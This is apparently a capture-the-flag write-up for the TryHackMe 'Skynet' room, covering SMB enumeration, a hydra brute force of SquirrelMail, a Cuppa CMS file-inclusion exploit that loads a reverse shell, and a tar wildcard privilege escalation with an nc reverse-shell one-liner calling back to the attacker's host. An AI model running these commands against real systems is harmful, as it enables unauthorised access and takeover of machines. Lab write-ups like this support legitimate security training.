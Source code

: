 ```yaml
---
layout: post
permalink: /posts/thm/skynet
title: "Skynet"
---
```


Hello everyone, today we are going to walk through the Skynet room. To begin with scan the target machine with nmap.

```
nmap -sC -sV <ip>
```

![nmap-initial](/assets/images/thm/skynet/nmap-initial.png)

There are open ports 22, 80, 110, 139, 143 and 445. Go to the web page

![website](/assets/images/thm/skynet/website.png)

There is no useful information on the page so we are going to scan with smbmap

```
python3 smbmap.py -H 10.10.60.45
```

We can notice that there is anonymous share. Let's try to connect it.

![smbmap](/assets/images/thm/skynet/smbmap.png)

```
smbclient //<ip>/anonymous
```

![smbclient](/assets/images/thm/skynet/smbclient.png)

On the SMB server we find folder logs. There is 3 log files in it but only log1.txt has some content.
It looks as password and maybe one of them is the Miles password. I tried to brute SSH and POP3 but the result was unsuccessful <br />

Let's try to find other directories on the web server.

```
gobuster dir -u http://10.10.60.45/ -w SecLists/Discovery/Web-Content/directory-list-2.3-small.txt
```

![gobuster-initial](/assets/images/thm/skynet/gobuster-initial.png)

From the gobuster scan we have discovered a directory /squirrelmail

![squirrelmail](/assets/images/thm/skynet/squirrelmail.png)

Now we are going to try to brute force this login page. Type some username and password and catch the request with BurpSuite. <br />

Here is our error response

![error](/assets/images/thm/skynet/error.png)

Burp catching

![burp](/assets/images/thm/skynet/burp.png)

Now we need to create our payload with hydra username “miles” 

```
hydra -l miles -P log1.txt 10.10.60.45 http-form-post "/squirrelmail/src/redirect.php:login_username=^USER^&secretkey=^PASS^&js_autodetect_results=1&just_logged_in=1:Unknown user or password incorrect." 
```

We wasn't able to brute force it. Let's try with his lastname which we had found in the attention file on SMB anonymous share. <br />

Miles Dyson

```
hydra -l milesdyson -P log1.txt 10.10.60.45 http-form-post "/squirrelmail/src/redirect.php:login_username=^USER^&secretkey=^PASS^&js_autodetect_results=1&just_logged_in=1:Unknown user or password incorrect."
```

![hydra](/assets/images/thm/skynet/hydra.png)

We can also use BurpSuite to brute force the password. Send the request to Intruder

![burp-brute](/assets/images/thm/skynet/burp-brute.png)

Go to the Payloads menu, upload the log1.txt file and start the attack.

![result](/assets/images/thm/skynet/result.png)

And we have logged in.

![webmail](/assets/images/thm/skynet/webmail.png)

Earlier we had found smb share milesdyson and from his inbox we can see what is the password for it

![smb-pass](/assets/images/thm/skynet/smb-pass.png)

Try to log in

```
smbclient //10.10.60.45/milesdyson -U milesdyson
```

When we list the directories we notice there is folder notes with a lot of files let's download all

```
cd notes/
mget *
```

there is a file importnant.txt open it

![important](/assets/images/thm/skynet/impotant.png)

/45kra24zxs28v3yd it looks as hidden directory

![web-hidden](/assets/images/thm/skynet/web-hidden.png)

There is no useful information. Let's scan this directory.

```
gobuster dir -u http://10.10.60.45/45kra24zxs28v3yd/ -w SecLists/Discovery/Web-Content/directory-list-2.3-small.txt

```

![gobuster-second](/assets/images/thm/skynet/gobuster-second.png)

We have found administrator directory

![admin](/assets/images/thm/skynet/admin.png)

We can't log with the miles credentials. Search in Exploit DB for cuppa cms <br />

https://www.exploit-db.com/exploits/25971

![cms](/assets/images/thm/skynet/cms.png)

We are going to use monkeyReverseShell.php <br />

Start listener

![nc](/assets/images/thm/skynet/nc.png)

We also need to start python server to be able to download the php script into the target

```
python3 -m hettp.server
```

```
curl http://10.10.60.45/45kra24zxs28v3yd/administrator/alerts/alertConfigField.php?urlConfig=http://10.9.5.60:8000/monkeyReverseShell.php
```

![curl](/assets/images/thm/skynet/curl.png)

We are in 

![shell](/assets/images/thm/skynet/shell.png)

Stabalize shell

```
python -c 'import pty;pty.spawn("/bin/bash")'
```

user flag is located at /home/milesdyson <br />

Privilege Escalation <br />

we are going to use linpeas

```
cd /dev/shm
wget http://10.9.5.60:8000/linpeas.sh
chmod +x linpeas.sh
./linpeas.sh
```

![linpeas](/assets/images/thm/skynet/linpeas.png)

There is a backup script that runs every minute and we have access to it. <br />

Google: tar wildcard exploit <br />
set listener

```
 nc -lvnp 4443
```

```
cd /var/www/html
echo "rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/bash -i 2>&1|nc 10.9.5.60 4443 >/tmp/f" > shell.sh
touch "/var/www/html/--checkpoint-action=exec=sh shell.sh"
touch "/var/www/html/--checkpoint=1"
```

![root](/assets/images/thm/skynet/root.png)